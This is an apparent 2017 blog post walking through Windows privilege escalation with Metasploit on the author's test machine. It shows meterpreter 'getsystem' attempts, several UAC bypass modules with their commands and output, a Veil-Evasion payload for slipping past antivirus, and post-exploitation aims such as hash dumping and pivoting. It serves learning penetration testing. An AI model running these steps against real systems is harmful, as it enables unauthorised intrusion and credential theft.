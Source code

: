 ```yaml
---
title: Privilege Escalation in Windows
date: 2017-05-14 00:00:00 Z
layout: post
---
```


Dusting off `msfconsole` and the Metasploit framework itself, it was time for me to get back on my feet with penetration testing.

With the recent ransomware [WannaCry](http://www.cnn.com/2017/05/14/opinions/wannacrypt-attack-should-make-us-wanna-cry-about-vulnerability-urbelis/) spreading throughout the globe, I pondered upon the question on how malware is able to attain system-level privileges on a Windows machine, locking it down, and making it near-impossible to circumvent.

When utilizing Metasploit against Windows targets, its essential to escalate user privileges to __SYSTEM__, otherwise being stuck on a user account with regular permissions limit the pentest. As penetration testers, privilege escalation is considered the most critical point of the post-exploitation step, and all the hard work from gaining initial access, maintaining persistence and circumventing the anti-virus will all seem meaningless.

What are some fun things we can do once we attain __SYSTEM__?

* Attain passwords, including hashes for any accounts on the system ('hashdump')
* Change passwords, create users and change permissions (even administration)
* Pivot to other workstations

A lot of the higher system-level functions of Metasploit rely on gaining system. Many penetration testers work immediately at privilege escalation once the machine is pwn`ed.

Metasploit's `meterpreter` console comes with some built-in Ruby scripts that can already help with the process.

    msf exploit(ms08_067_netapi) > exploit
    ...
    meterpreter > getsystem

In this case, I utilized the built in `getsystem` script. Well, what __exactly__ does `getsystem` do? `getsystem` works on three different techniques. Although I won't go in detail about how they work, Cobalt Strike (a Metasploit GUI framework) wrote a [great blog post](https://blog.cobaltstrike.com/2014/04/02/what-happens-when-i-type-getsystem/) about it.

This exploit, CVE-2008-4250, is one of the staples of vulnerabilities in the early Windows XP operating systems. Yes, Windows __XP__. What happens if we attempt to gain privileges on a pwn'ed Windows 8 or 10 machine?


    msf exploit(handler) > exploit
    ...
    meterpreter > getsystem
    [-] priv_elevate_getsystem: Operation failed: The environment is incorrect. The following was attempted:
    [-] Named Pipe Impersonation (In Memory/Admin)
    [-] Named Pipe Impersonation (Dropper/Admin)
    [-] Token Duplication (In Memory/Admin)

Using a standard Veil-Evasion encrypted Meterpreter payload binary, I gained physical access inside my test Windows 10 machine. Not as fun as fileless access, but gets the work done. However, when we attempt to utilize `getsystem` this time, all three methods of it ceased to work. Even doing `getprivs` doesn't yield us that many permissions.

    meterpreter > getprivs
    ============================================================
    Enabled Process Privileges
    ============================================================
    SeShutdownPrivilege
    SeChangeNotifyPrivilege
    SeUndockPrivilege

And keep in mind that this is a standard Windows 10 machine WITHOUT any AVs except for the standard Windows Defender. So, what happened?

## User Account Control

Now's a great time to talk about Window's UAC, or User Account Control feature. This feature was implemented as a security feature such that hackers are not able to gain privileges. This means that in order for a regular user to utilize some sort of service of application that is available exclusively to the administrator, a popup prompt will pop out requesting authentication as a Administrator. Sounds familiar? You definitely has seen UAC before, with all its warnings about unknown publishers for some applications, turning off certain features in the Windows settings, etc.

![uac](http://bit.ly/2qGTpjE)

On Windows 10, UAC has become much more stricter, such that impersonating SYSTEM with `getsystem` becomes much harder ... but not impossible. 

## A Few Methods to Bypass UAC

In order to circumvent this, we need to rely on some different techniques. 

### Windows Escalate UAC Protection Bypass

This is a method which spawns a new shell session with UAC disabled as a process. This attack works, however, on the basis that UAC is set as "Notify me only when programs try to make changes to my computer", which is standard for many operating systems.

 Let's background our current `meterpreter` session and load it up.

    meterpreter > background
    [*] Backgrounding session 2...
    msf(handler) > use exploit/windows/local/bypassuac
    msf(bypassuac) > show targets

    Exploit targets:

       Id  Name
       --  ----
       0   Windows x86
       1   Windows x64
    
    msf(bypassuac) > set TARGET 1
    TARGET => 1
    msf(bypassuac) > set SESSION 2
    SESSION => 2
    msf(bypassuac) > exploit
    ...

Once complete, we are able to `getsystem` as we did previously.

Of course, this may not totally work. If UAC is set to "Always Notify", loading this process as part of memory will fail. Therefore, if you use a build of Windows that is Vista it will not work, as this is feature is default. In this case, the attack against my Windows 10 build failed

    msf exploit(bypassuac) > exploit

    [*] Started reverse TCP handler on 192.168.1.170:4444 
    [-] Exploit aborted due to failure: not-vulnerable: Windows 10 (Build 14393). is not vulnerable.
    [*] Exploit completed, but no session was created.


### Windows Escalate UAC Protection Bypass (In Memory Injection)

This exploit aims to to inject a DLL binary through the Reflective DLL Injection technique. Similar to the previous exploit, it is important to specify the architecture of the machine.

    meterpreter > background
    [*] Backgrounding session 2...
    msf(handler) > use exploit/windows/local/bypassuac_injection
    msf(bypassuac_injection) > show targets

    Exploit targets:

       Id  Name
       --  ----
       0   Windows x86
       1   Windows x64

    msf(bypassuac_injection) > set TARGET 0
    TARGET => 0
    msf(bypassuac_injection) > set SESSION 2
    SESSION => 2
    msf(bypassuac_injection) > exploit
    ...

### Windows Escalate UAC Execute RunAs

This last exploit was actually from [this Metasploitation video](https://www.youtube.com/watch?v=OqmxRIqC3FE&feature=youtu.be) and was conceived by Hak5's [mubix](https://room362.com/). I find this privilege escalation method the most effective, but it does add on a caveat of the target user having to explicitly click on a UAC notification. This exploit calls upon the Windows `ShellExecute` function to start a shell with UAC-bypassed privileges. Once again, it is important that you set the necessary target architecture.

    meterpreter > background
    [*] Backgrounding session 2...
    msf(handler) > use exploit/windows/local/ask
    msf(ask) > show targets

    Exploit targets:

       Id  Name
       --  ----
       0   Windows x86
       1   Windows x64

    msf(ask) > set TARGET 0
    TARGET => 0
    msf(ask) > set SESSION 2
    SESSION => 2
    msf(ask) > exploit
    ...

Once executed, UAC will give a prompt to a user. Once completed, the exploit finishes, and you are able to `getsystem`.

---

Thanks for reading this article! Although I had fun getting my feet wet with Metasploit again, I still am reminded about how uninformed I am about the Win API, and really want to dive into binary exploitation, as well as acquainting myself with the Windows architecture for security-oriented purposes. With that said, expect some more fun stuff in the future combining both penetration testing and programming!

With that said, stay safe and good luck with your endeavors!